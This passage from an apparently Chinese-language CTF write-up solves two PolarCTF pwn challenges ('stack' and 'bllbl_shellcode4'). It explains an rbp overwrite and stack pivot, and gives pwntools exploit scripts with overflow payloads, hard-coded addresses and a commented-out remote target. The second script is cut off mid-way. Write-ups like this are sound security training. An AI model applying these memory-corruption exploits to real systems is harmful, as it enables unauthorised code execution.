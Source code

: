 ```
p.sendline(payload)
p.interactive()
```

### stack

![image-20250814192138672](/n0va6/assets/gitbook/images/image-20250814192138672.png)

只能覆盖掉rbp，由此想到通过覆盖掉rbp，把栈迁移

![](/n0va6/assets/gitbook/images/image-20250814192323327.png)



显然，想要执行system必须满足两个条件，而我们只能控制v4的值，因此要让rbp-4与passwd指向同一地址，伪造rbp为&passwd-4，则能同时满足

exp

```
from pwn import*
context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2100)
p=process('./stack')

rbp=0x4033CC+4
payload=b'a'*(0x50)+p64(rbp)
#gdb.attach(p)
#pause()
p.sendline(payload)
p.recvuntil(b'input1:')

p.sendline(b'4660')

p.interactive()
```

### bllbl_shellcode4

分析程序可知主要提供两个函数，先来看sub_401216

![image-20250812192656281](/n0va6/assets/gitbook/images/image-20250812192656281.png)

mprotect函数使得0x4040c0地址开始(包括之前)的bss段都可执行，且给了/bin/sh的地址

再看sub_401306

![](/n0va6/assets/gitbook/images/image-20250812192656281.png)

显然可以进行栈溢出但长度不够，于是想到先迁移到bss可执行段，再编写shellcode控制程序执行

exp

```
from pwn import*
context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2104)
p=process('./pwn1')
elf=ELF('./pwn1')

bss=0x4040C0
read=0x401335
sub_rsp_x15=0x40136A
bin_sh=0x40203F

payload=b'a'*9+p64(bss)+p64(read)
p.recvuntil(b'welcome to PolarCTF Summer Games')
```